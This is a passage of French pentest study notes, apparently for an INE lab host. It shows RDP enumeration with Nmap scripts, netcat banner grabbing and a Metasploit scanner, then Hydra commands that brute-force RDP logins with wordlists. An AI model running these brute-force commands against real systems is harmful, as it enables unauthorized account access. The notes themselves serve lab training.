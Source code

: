 ### Identification service RDP
```bash
# Scripts Nmap RDP
nmap -p3333 --script rdp-* demo.ine.local
nmap -p3333 --script rdp-enum-encryption demo.ine.local
nmap -p3333 --script rdp-ntlm-info demo.ine.local

# Banner grabbing RDP
nc demo.ine.local 3333
telnet demo.ine.local 3333
```

### Scanner RDP avec Metasploit
```bash
# Lancement Metasploit
msfconsole

# Module de détection RDP
use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS demo.ine.local
set RPORT 3333
show options
exploit
```

### Résultat scanner RDP typique
```bash
# Sortie attendue :
[*] 192.168.1.100:3333 - Detected RDP on demo.ine.local:3333
[*] 192.168.1.100:3333 - RDP Target OS: Windows
[*] 192.168.1.100:3333 - RDP Protocol Version: 10.0
```

---

## 🔐 3. Brute Force RDP avec Hydra

### Syntaxe Hydra pour RDP
```bash
hydra [OPTIONS] rdp://target[:port]
```

### Configuration Hydra RDP
```bash
# Brute force avec wordlists MSF
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt \
      -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt \
      rdp://demo.ine.local -s 3333

# Options recommandées RDP
hydra -L users.txt -P passwords.txt -t 4 -f rdp://demo.ine.local -s 3333
```
